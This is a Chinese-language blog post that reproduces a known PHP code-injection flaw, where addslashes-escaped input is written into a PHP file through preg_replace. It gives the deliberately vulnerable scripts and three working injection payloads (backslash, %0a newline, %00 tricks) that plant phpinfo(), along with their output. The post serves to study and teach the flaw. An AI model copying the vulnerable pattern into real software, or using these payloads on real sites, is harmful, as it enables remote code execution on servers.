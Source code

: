 ```yaml
---
layout: post

title: "一个PHP正则相关的“经典漏洞”"
date: 2017-02-28 16:29:56 +0800
image: true

categories: php
tags: [php, 正则表达式, 网络安全]
---
```

1. 文件准备
    example.php 文件
    ```php
    <?php
    $str = addslashes($_GET['option']);
    $file = file_get_contents('example_test.php');
    $file = preg_replace('|\$option=\'.*\';|',"\$option='$str';", $file);
    var_dump($str, $file);
    file_put_contents('example_test.php', $file);
    ```
    ![example.php]({{ site.url }}/assets/images/201702/28-01.png)

    example_test.php 文件
    ```php
    <?php
    $option='hello';
    echo $option;
    ```
    ![example_test.php]({{ site.url }}/assets/images/201702/28-02.png)

**注入方法**

方法一: 利用反斜杠, 输入`\';phpinfo();//`

`http://example.com/example.php?option=\%27;phpinfo();//`

```php
string(17) "\\\';phpinfo();//"
string(50) "<?php

$option='\\';phpinfo();//';

echo $option;
"
```

方法二: 利用正则, 输入`aaa';phpinfo();%0a//`

`http://example.com/example.php?option=aaa%27;phpinfo();%0a//`

```php
string(19) "aaa\';phpinfo();
//"
string(53) "<?php

$option='aaa\';phpinfo();
//';

echo $option;
"
```
方法三: 利用 `%00`

1. 输入`;phpinfo();`, `http://example.com/example.php?option=;phpinfo();`

    ```php
    string(11) ";phpinfo();"
    string(45) "<?php

    $option=';phpinfo();';

    echo $option;
    "
    ```
1. 再次输入`%00`, `http://example.com/example.php?option=%00`

    ```php
    string(2) "\0"
    string(56) "<?php

    $option='$option=';phpinfo();';';

    echo $option;
    "
    ```

> 本文为验证,`原文`有解析: [https://www.cdxy.me/?p=756](https://www.cdxy.me/?p=756)

---
### 更多阅读
- [一个PHP正则相关的“经典漏洞”](https://www.cdxy.me/?p=756)
